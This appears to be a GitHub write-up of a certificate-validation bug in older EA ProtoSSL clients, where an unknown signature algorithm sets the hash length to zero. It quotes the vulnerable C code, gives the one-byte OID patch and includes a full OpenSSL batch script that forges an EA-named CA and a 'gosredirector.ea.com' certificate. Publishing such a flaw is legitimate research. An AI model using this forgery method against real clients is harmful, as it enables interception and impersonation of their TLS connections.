




Old ProtoSSL Bug
========

This file contains information on how older EA's ProtoSSL clients can accept fake SSL certificates. This will not work with the newest versions of ProtoSSL, because looking at the open source code this bug now seems to be fixed.

Back in the day when i was researching Blaze for BF3 and BF4 i got to the problem of SSL, where i needed my own local redirector to redirect to my own custom blaze server. At that time i knew of the traditional SSL patches (just modify the SSL cert check function to accept any certificate and voilà it's done), but even that sometimes was hard, but on other platforms like PS3, Android and X360 this is much harder because the assembly is much different for those platforms.

So I wanted to know if there is a better and easier way to make SSL patches on Windows, but what i stumbled upon was something much different - **A way to make ProtoSSL client's accept fake SSL certificates without any modification to the client itself**. So this means, this would work on any other platorm aswell to the clients which are using older version of EA's ProtoSSL.

## How?

The bug will be explained based on https://github.com/xebecnan/EAWebkit/blob/master/EAWebKitSupportPackages/DirtySDKEAWebKit/local/core/source/proto/protossl.c 

### Part 1: A possible scenario when a fake certificate can be a valid certificate.

Let's take a look how ProtoSSL compares signature hashes when it is verifying the certificate.

```c
static int32_t _VerifyCertificate(X509CertificateT *pCert, int32_t iSelfSigned)
{
    ...

    if (memcmp(pCert->HashData, RSA.EncryptBlock+(pCert->iSigSize&65534)-pCert->iHashSize, pCert->iHashSize) != 0)
    {
        NetPrintf(("protossl: _VerifyCertificate: signature hash mismatch\n"));
        _DebugPrintCert(pCert, "failed cert");
        if (pCACert != NULL)
        {
            _DebugPrintCertIdent(&pCACert->Subject, "parent ca");
        }
        return(-30);
    }

    return(0);
}
```
As we can see it uses memcmp function.
```c
int memcmp(const void* ptr1, const void* ptr2, size_t num);
```
When the first **num** bytes in **ptr1** and **ptr2** matches, the **memcmp** function returns zero, which indicates that the signatures are a match and therefore the **_VerifyCertificate** will return zero which indicates that there was no error verifying certificate.

But imagine what would happen if let's say the **num** (which is **pCert->iHashSize**) is zero... **The memcmp function would compare nothing! And therefore it would return zero and _VerifyCertificate would return zero aswell!**

But then the next logical question of course would be:

**But how we can get _pCert->iHashSize_ to be zero?** The answer to this question is in the next part.


### Part 2: Somebody once said "Should never get here", but it did get there.

Let's take a look at how a certificate is parsed.
```c
static int32_t _ParseCertificate(X509CertificateT *pCert, const uint8_t *pData, int32_t iSize)
{
    ...

    pData = _ParseHeader(pData, pInfSkip, &iType, &iSize);
    if ((pData == NULL) || (iType != ASN_TYPE_OBJECT+ASN_PRIMITIVE))
    {
        NetPrintf(("protossl: _ParseCertificate: could not get signature algorithm type (iType=%d)\n", iType));
        return(-6);
    }

    pCert->iSigType = _ParseObject(pData, iSize);
    if (pCert->iSigType == ASN_OBJ_NONE)
    {
        NetPrintMem(pData, iSize, "protossl: unsupported signature algorithm");
        return(-7);
    }
    pData += iSize;
    
    ...

    pData = _ParseHeader(pData, pSigSkip,  &iType, &iSize);
    if ((pData == NULL) || (iType != ASN_TYPE_OBJECT+ASN_PRIMITIVE))
    {
        NetPrintf(("protossl: _ParseCertificate: could not get signature algorithm identifier (iType=%d)\n", iType));
        return(-19);
    }
    pCert->iSigType = _ParseObject(pData, iSize);

    ...

    switch (pCert->iSigType)
    {
        case ASN_OBJ_RSA_PKCS_MD2:
        {
            CryptMD2T MD2;
            CryptMD2Init(&MD2);
            CryptMD2Update(&MD2, pInfData, pInfSkip-pInfData);
            CryptMD2Final(&MD2, pCert->HashData, pCert->iHashSize = MD2_BINARY_OUT);
            break;
        }

        case ASN_OBJ_RSA_PKCS_MD5:
        {
            CryptMD5T MD5;
            CryptMD5Init(&MD5);
            CryptMD5Update(&MD5, pInfData, pInfSkip-pInfData);
            CryptMD5Final(&MD5, pCert->HashData, pCert->iHashSize = MD5_BINARY_OUT);
            break;
        }

        case ASN_OBJ_RSA_PKCS_SHA1:
        {
            CryptSha1T Sha1;
            CryptSha1Init(&Sha1);
            CryptSha1Update(&Sha1, pInfData, pInfSkip-pInfData);
            CryptSha1Final(&Sha1, pCert->HashData, pCert->iHashSize = CRYPTSHA1_HASHSIZE);
            break;
        }

        default:
            NetPrintf(("protossl: unknown signature algorithm, should never get here\n"));
            pCert->iHashSize = 0;
    }

    return(0);
}
```
At the end of the function in the switch statement if the signature algorithm is unknown it does not return an error and it also **set's pCert->iHashSize to 0! Whoa!** Now you can see that it is indeed possible to make **_VerifyCertificate** return no error.

But before we can get there we need to understand on how to trigger that code block. The answer in that lies in **pCert->iSigType**. We can see that it is assigned twice using
```c
pCert->iSigType = _ParseObject(pData, iSize);
```
But why twice? Well if we look in WireShark when an SSL handshake is happening, we can see:


1. first time it reads **signature**
2. second time it reads **algorithmIdentifier**

When the signature type is read the first time it checks if it is a valid type, the second time it reads it it is not checking if it is a valid type.
We are not really interested in modifying **signature** type, because **pCert->iSigType** will be reassigned later with **algorithmIdentifier** which will be looked at in the switch statement.

So all we need to do is to modify the certificate **algorithmIdentifier** to be anything else than _ASN_OBJ_RSA_PKCS_MD2_, _ASN_OBJ_RSA_PKCS_MD5_ and _ASN_OBJ_RSA_PKCS_SHA1_.

So what else **algorithmIdentifier** can be? To see that we need to look at the **_ParseObject** function.
```c
static int32_t _ParseObject(const unsigned char *pData, int32_t iSize)
{
    int32_t iType = 0;
    int32_t iIndex;

    for (iIndex = 0; _SSL_ObjectList[iIndex].iType != ASN_OBJ_NONE; ++iIndex)
    {
        if ((iSize >= _SSL_ObjectList[iIndex].iSize) && (memcmp(pData, _SSL_ObjectList[iIndex].strData, _SSL_ObjectList[iIndex].iSize) == 0))
        {
            iType = _SSL_ObjectList[iIndex].iType;
            break;
        }
    }

    return(iType);
}
```
All we can see it iterates over **_SSL_ObjectList** and returns the type when a match for **pData** is found.
```c
_SSL_ObjectList[] =
{
    { ASN_OBJ_COUNTRY, 3, { 0x55, 0x04, 0x06 } },
    { ASN_OBJ_CITY, 3, { 0x55, 0x04, 0x07 } },
    { ASN_OBJ_STATE, 3, { 0x55, 0x04, 0x08 } },
    { ASN_OBJ_ORGANIZATION, 3, { 0x55, 0x04, 0x0a } },
    { ASN_OBJ_UNIT, 3, { 0x55, 0x04, 0x0b } },
    { ASN_OBJ_COMMON, 3, { 0x55, 0x04, 0x03 } },
    { ASN_OBJ_RSA_PKCS_KEY, 9, { 0x2a, 0x86, 0x48, 0x86, 0xf7, 0x0d, 0x01, 0x01, 0x01 } },
    { ASN_OBJ_RSA_PKCS_MD2, 9, { 0x2A, 0x86, 0x48, 0x86, 0xF7, 0x0D, 0x01, 0x01, 0x02 } },
    { ASN_OBJ_RSA_PKCS_MD5, 9, { 0x2a, 0x86, 0x48, 0x86, 0xf7, 0x0d, 0x01, 0x01, 0x04 } },
    { ASN_OBJ_RSA_PKCS_SHA1, 9, { 0x2a, 0x86, 0x48, 0x86, 0xf7, 0x0d, 0x01, 0x01, 0x05 } },
    { ASN_OBJ_NONE, 0, { 0 } }
};
```
In theory we can use everything here except _ASN_OBJ_RSA_PKCS_MD2_, _ASN_OBJ_RSA_PKCS_MD5_ and _ASN_OBJ_RSA_PKCS_SHA1_, but each of them have different sizes and modifying certificate overall size is not that good (certificate will probably become corrupt). So let's just focus at **ASN_OBJ_RSA_PKCS_KEY**, **ASN_OBJ_RSA_PKCS_MD2**, **ASN_OBJ_RSA_PKCS_MD5**, **ASN_OBJ_RSA_PKCS_SHA1**, where the size for all of them are equal (9 bytes).

We can see that first 8 bytes { 0x2a, 0x86, 0x48, 0x86, 0xf7, 0x0d, 0x01, 0x01 } are equal for all of them. The only difference is the last byte.

So if we have certificate with **ASN_OBJ_RSA_PKCS_MD2**, **ASN_OBJ_RSA_PKCS_MD5** or **ASN_OBJ_RSA_PKCS_SHA1** signature type we can change that with **ASN_OBJ_RSA_PKCS_KEY** by changing the last byte in the pattern.

* MD2:  0x02 -> 0x01
* MD5:  0x04 -> 0x01
* SHA1: 0x05 -> 0x01

Once we set **algorithmIdentifier** to be **ASN_OBJ_RSA_PKCS_KEY** then when the ProtoSSL client will parse the certificate, then the default block will run in the switch statement which will set certificate hash size to 0 and as a result the certificate verification will be successful!
If you want to see how to create such certificate, read the next part.

### Part 3: Creating the fake certificate

This is an example for creating "gosredirector.ea.com" certificate (keep in mind that you have to set the right values for your Issuer and Subject in order to make it work, otherwise the certificate verification will fail).

I will be using OpenSSL to create the certificate. [You can also create such certificate using C#](https://github.com/valters-tomsons/arcadia/blob/main/src/server/EA/CertGenerator.cs) (by [@valters-tomsons](https://github.com/valters-tomsons)).

```bat
@echo off

rem Current Directory
set cdir=D:\fakeCert

rem Certificate Authority name
set CA_NAME=OTG3

rem Certificate name
set C_NAME=gosredirector

rem Modified der file name, that will be used later
set MOD_NAME=gosredirector_mod

rem Setting current directory to OpenSSL so we can use it
C:
cd C:\Program Files (x86)\OpenSSL-Win32\bin

rem Create private key for the Certificate Authority
openssl genrsa -aes128 -out %cdir%\%CA_NAME%.key.pem -passout pass:123456 1024
openssl rsa -in %cdir%\%CA_NAME%.key.pem -out %cdir%\%CA_NAME%.key.pem -passin pass:123456

rem Create the certificate of the Certificate Authority
openssl req -new -md5 -x509 -days 28124 -key %cdir%\%CA_NAME%.key.pem -out %cdir%\%CA_NAME%.crt -subj "/OU=Online Technology Group/O=Electronic Arts, Inc./L=Redwood City/ST=California/C=US/CN=OTG3 Certificate Authority"

rem ------------Certificate Authority created, now we can create Certificate------------

rem Create private key for the Certificate
openssl genrsa -aes128 -out %cdir%\%C_NAME%.key.pem -passout pass:123456 1024
openssl rsa -in %cdir%\%C_NAME%.key.pem -out %cdir%\%C_NAME%.key.pem -passin pass:123456

rem Create certificate signing request of the certificate
openssl req -new -key %cdir%\%C_NAME%.key.pem -out %cdir%\%C_NAME%.csr -subj "/CN=gosredirector.ea.com/OU=Global Online Studio/O=Electronic Arts, Inc./ST=California/C=US"

rem Create the certificate
openssl x509 -req -in %cdir%\%C_NAME%.csr -CA %cdir%\%CA_NAME%.crt -CAkey %cdir%\%CA_NAME%.key.pem -CAcreateserial -out %cdir%\%C_NAME%.crt -days 10000 -md5

rem ------------Certificate created, now export it to .der format so we can modify it------------
openssl x509 -outform der -in %cdir%\%C_NAME%.crt -out %cdir%\%C_NAME%.der

echo Der file exported, now patch it manually
pause

rem ------------Certificate modified, now export it to .pfx format so we can use it------------

rem Convert .der back to .crt
openssl x509 -inform der -in %cdir%\%MOD_NAME%.der -out %cdir%\%MOD_NAME%.crt

rem Export it as .pfx file (you will have to type .pfx password)
openssl pkcs12 -export -out %cdir%\%MOD_NAME%.pfx -inkey %cdir%\%C_NAME%.key.pem -in %cdir%\%MOD_NAME%.crt
pause
```

Since i was using MD5 as the signature type, then i have to search for hex pattern **2a864886f70d010104** in the exported gosredirector.der file



As you can see there are 2 instances, now i have to modify the second instance of **2a864886f70d010104** to **2a864886f70d010101**



Done, now i can save it as gosredirector_mod.der and resume the .bat file.

The end result will be gosredirector_mod.pfx certificate that now i can use without patching ProtoSSL client's like BF3, BF4 and possibly others. BF3 and BF4 were the only games i tested and it worked.

This is how the SSL handskake now will look (BF4). 



